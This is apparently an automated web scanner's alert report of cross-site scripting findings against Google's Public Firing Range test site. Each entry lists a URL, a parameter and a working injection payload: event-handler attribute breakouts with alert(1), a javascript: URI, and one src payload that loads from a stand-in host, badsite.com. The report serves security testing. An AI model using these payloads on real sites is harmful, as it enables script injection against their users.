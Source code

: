 * URL: https://public-firing-range.appspot.com/angular/angular_body_attribute_ng/1.4.0%3Fq=%2522+onMouseOver%253D%2522alert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" onMouseOver="alert(1);`
  * Evidence: `" onMouseOver="alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/angular/angular_body_attribute_non_ng/1.4.0%3Fq=%2522+onMouseOver%253D%2522alert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" onMouseOver="alert(1);`
  * Evidence: `" onMouseOver="alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/angular/angular_body_attribute_non_ng_raw/1.4.0%3Fq=%2522+onMouseOver%253D%2522alert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" onMouseOver="alert(1);`
  * Evidence: `" onMouseOver="alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/attribute_name%3Fq=accesskey%253D%2527x%2527+onclick%253D%2527alert%25281%2529%2527+b
  * Method: `GET`
  * Parameter: `q`
  * Attack: `accesskey='x' onclick='alert(1)' b`
  * Evidence: `accesskey='x' onclick='alert(1)' b`
  * Other Info: `The accesskey attribute specifies a shortcut key to activate/focus an element. This attribute can trigger payloads for non-conventional or custom tags.`
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/attribute_quoted%3Fq=%2522+onMouseOver%253D%2522alert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" onMouseOver="alert(1);`
  * Evidence: `" onMouseOver="alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/attribute_script%3Fq=%2522+src%253Dhttp%253A%252F%252Fbadsite.com
  * Method: `GET`
  * Parameter: `q`
  * Attack: `" src=http://badsite.com`
  * Evidence: `" src=http://badsite.com`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/attribute_singlequoted%3Fq=%2527+onMouseOver%253D%2527alert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `' onMouseOver='alert(1);`
  * Evidence: `' onMouseOver='alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/attribute_unquoted%3Fq=+onMouseOver%253Dalert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: ` onMouseOver=alert(1);`
  * Evidence: ` onMouseOver=alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/css_import%3Fq=javascript%253Aalert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `javascript:alert(1);`
  * Evidence: `javascript:alert(1);`
  * Other Info: ``